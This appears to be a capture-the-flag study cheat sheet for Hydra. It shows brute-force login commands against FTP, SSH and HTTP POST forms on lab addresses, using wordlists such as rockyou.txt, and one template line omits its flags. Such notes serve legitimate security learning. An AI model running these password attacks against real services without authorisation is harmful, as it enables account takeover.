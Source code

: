 # Hydra

## Beispiele

```bash
# brute force ftp with username 'user' and a password list 'passlist.txt'
hydra -l user -P passlist.txt ftp://MACHINE_IP
# use hydra on ssh
# -l: specifies SSH username for login
# -P: indicates list of passwords
# -t: sets number of threads to spawn
hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh

# use hydra on Post Web Form
sudo hydra <username> <wordlist> 10.10.171.15 http-post-form "<path>:<login_credentials>:<invalid_response>"
# more concrete example
# / indicates that the login page is the main IP address
# -l: the username for (web form) login
# the specified username(s) will replace ^USER^
# the provided passwords will replace ^PASS^
# F= incorrect is string that appears in server reply when login fails
hydra -l molly -P /usr/share/wordlists/rockyou.txt -u -m "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect." 10.10.171.15 http-post-form
```

- brute force online password cracking
- can run through a list and brute force a lot of authentication services like SSH, Web App Form, FTP etc.
- options that are passes into Hydra depend on the service/protocol that is being attacked
